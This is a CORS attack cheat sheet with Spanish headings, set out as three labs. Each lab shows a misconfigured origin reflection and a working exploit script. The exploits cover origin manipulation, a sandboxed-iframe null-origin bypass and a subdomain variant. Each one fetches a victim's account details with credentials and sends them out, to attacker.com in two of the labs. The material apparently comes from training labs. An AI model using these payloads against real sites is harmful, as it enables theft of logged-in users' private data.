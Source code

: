 ```yaml
---

### 🌐 **CORS (Cross-Origin Resource Sharing) Cheat Sheet**  

---
```

---

## **Payloads y Ataques Relacionados**

### **Lab 1: Origin Manipulation**
**Request:**
```http
Origin: https://gustavo.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

### **Lab 2: Origin Null Bypass**
**Request:**
```http
Origin: null
```
**Response:**
```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>"></iframe>
```

---

### **Lab 3: Subdomain Takeover with CORS**
**Request:**
```http
Origin: https://gustavo.target.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.target.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

